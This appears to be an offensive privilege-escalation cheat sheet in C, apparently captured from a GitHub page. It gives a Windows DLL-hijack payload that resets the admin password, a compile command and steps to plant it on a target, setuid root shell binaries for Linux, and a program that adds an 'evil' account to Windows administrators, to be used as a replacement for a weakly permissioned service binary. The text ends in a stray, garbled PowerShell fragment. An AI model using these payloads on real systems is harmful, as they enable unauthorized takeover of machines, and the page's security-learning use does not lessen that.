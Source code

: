 ```C
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {

	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /k net user admin newpass");
		ExitProcess(0);
	}
	return TRUE;
}
```

The above code changes the admin password to \[newpass] Compile the code with the below command on linux

```
x86_64-w64-mingw32-gcc code.c -shared -o code.dll
```

Replace \[code.dll] with the targeted or missing dll on the target machine then stop and start its associated service to execute your dll.

#### C Code \[2]

\[2-1]

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main (void) {
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
	return 0;
}
```

\[2-2]

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(void)
{
	setuid(geteuid());
	execl("/bin/sh","sh",0);
}
```

\[2-3] Adding a new admin user to the compromised windows system. Replace this code with an executable file with weak permissions and is run as a service or as an admin.

```C
#include <stdlib.h>
int main ()
{
int i;
i = system ("net user evil Ev!lpass /add");
i = system ("net localgroup administrators evil /add");
return 0;
}
```


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"
